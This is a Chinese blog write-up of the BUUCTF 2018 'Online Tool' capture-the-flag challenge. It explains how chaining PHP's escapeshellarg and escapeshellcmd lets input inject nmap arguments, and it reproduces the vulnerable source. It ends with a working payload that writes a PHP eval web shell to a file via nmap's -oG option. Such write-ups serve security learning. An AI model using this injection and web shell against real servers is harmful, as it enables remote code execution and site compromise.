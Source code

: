<!--yml
category: 未分类
date: 2022-04-26 14:41:03
-->

# [BUUCTF 2018]Online Tool 题解_偷一个月亮的博客-CSDN博客

> 来源：[https://blog.csdn.net/yiqiushi4748/article/details/108351988](https://blog.csdn.net/yiqiushi4748/article/details/108351988)

```
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，
即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，
这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。 
```

```
 <?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    echo $host."
";
    $host = escapeshellarg($host);
    echo $host."
";
    $host = escapeshellcmd($host);
    echo $host."
";
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
} 
```

题目：

前面的所有单引号都已经闭合了。一句话木马作为IP参数 ，结果输出到hack2.php

payload：

```
 http://ff27454c-02c4-443c-8802-a2b5aeb6c242.node3.buuoj.cn/?host='<?php @eval($_POST["c"]);?> -oG hack2.php ' 
```